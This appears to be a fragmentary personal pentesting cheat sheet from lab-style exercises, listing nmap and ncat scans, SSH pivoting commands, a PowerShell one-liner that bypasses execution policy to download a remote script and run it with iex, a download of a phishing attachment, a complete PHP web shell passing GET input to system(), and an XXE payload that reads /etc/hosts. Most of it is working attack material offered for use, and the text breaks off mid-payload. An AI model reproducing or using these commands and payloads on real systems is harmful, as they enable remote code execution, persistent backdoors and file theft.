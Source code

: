 --source-port 53	Performs the scans from specified source port.
 ncat -nv --source-port 53 10.129.2.28 80

sudo nmap -p 53 -A -T5 --script discovery 10.129.2.48 == see the info about dns port

-Pn	used when the server blocks ping requests

=================================================================================
ssh -R <pivot_host_internal_ip>:<pivot_host_port>:0.0.0.0:<local_port> <target> -v -N
ssh -D 9090 us@targ


=================================================================================
PowerShell
```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"

The -ep Bypass -nop flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
The DownloadFile method pulls a file (in this case, IS.ps1) from a remote server (https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1) and saves it in the C:\\ProgramData\\ directory on the target machine.
Once downloaded, the script is executed with PowerShell using the iex command, which triggers the downloaded s.ps1 file.

Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm 		# download

```
=================================================================================
# Web Shell 1
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
=================================================================================
# Explore XML External Entity (XXE)
```
ntities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files.  XXE is an attack that takes advantage of how XML parsers handle external entities. 

# test by adding:
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
	... and adding &payload; in 

# web wants the address to come from robot.txt:
<!DOCTYPE people [
```